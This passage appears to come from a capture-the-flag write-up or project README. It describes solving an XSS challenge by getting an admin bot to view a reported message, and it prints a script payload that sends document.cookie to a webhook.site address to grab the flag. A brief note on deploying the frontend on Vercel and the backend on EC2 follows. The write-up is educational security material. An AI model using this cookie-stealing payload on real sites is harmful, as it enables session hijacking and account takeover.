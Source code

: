 4. **Stealing Cookies**:

The "Report this message" button can report the message to the admin.

We need to capture the admin's session when they view our message.

The `document.cookie` property contains all cookies for the current page
The `document.location="https://example.com?data=xxx"` can redirect the browser to the example.com while sending data

So we can use `<script>document.location="https://example.com?data=" + document.cookie</script>` to steal the admin's cookie.

First we go to https://webhook.site/ and get our webhook url.
Then we construct the payload:

```javascript
<script>document.location = "https://webhook.site/your_webhook_id?cookie=" + document.cookie</script>
```

Then we report the message and check our webhook.

After a while, we can see the flag in our webhook!
![XSS flag](./XSS_flag.png)


### 3.4 Deployment

I first deployed my frontend using Vercel and mapped it to my own subdomain `ctf.cuinspace.com`. Later, I deployed the backend on an AWS EC2 instance.

